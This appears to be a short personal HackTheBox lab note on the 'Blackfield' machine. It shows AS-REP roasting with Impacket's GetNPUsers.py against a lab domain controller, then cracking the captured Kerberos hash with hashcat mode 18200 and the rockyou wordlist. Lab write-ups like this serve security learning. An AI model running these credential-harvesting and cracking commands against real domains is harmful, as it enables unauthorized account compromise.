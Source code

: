 ![[Pasted image 20250109185234.png]]

Use [[Impacket]] #getnpusers to perform #ASREProast


```bash
./GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -userfile users.lst blackfield/
```

Got a hash 

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109190751.png)
Crack this hash with #hashcat 

Figure out hashcat mode quickly:

```
./hashcat --example-hashes | grep krb5asrep
```

```
./hashcat --example-hashes | grep -B5 krb5asrep
```

Need mode `18200`

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109201559.png)

Crack the hash. 

```
./hashcat -m 18200 hashes/blackfield /opt/wordlist/rockyou.txt
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250109201716.png)

When hashcat is done..use `--show` flag
